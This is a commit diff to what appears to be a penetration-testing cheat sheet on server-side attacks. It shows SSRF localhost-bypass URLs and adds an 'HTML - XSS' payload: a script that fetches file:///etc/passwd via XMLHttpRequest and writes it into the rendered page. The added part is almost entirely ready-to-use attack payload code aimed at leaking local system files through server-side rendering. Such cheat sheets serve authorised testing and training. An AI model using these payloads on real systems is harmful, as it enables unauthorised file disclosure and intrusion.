

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Web Applications/Server Side.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

`````diff
--- a/Web Applications/Server Side.md
+++ b/Web Applications/Server Side.md
@@ -63,6 +63,16 @@ http://[::ffff:127.0.0.1]
 ````
 https://httpbin.org/redirect-to?url=http://localhost
 https://307.r3dir.me/--to/?url=http://localhost
+````
+**HTML - XSS**
+````
+<script>
+x=new XMLHttpRequest;
+x.onload=function(){
+document.write(this.responseText)};
+x.open("GET","file:///etc/passwd");
+x.send();
+</script>
 ````
 
 ## Server Side Template Injection
`````
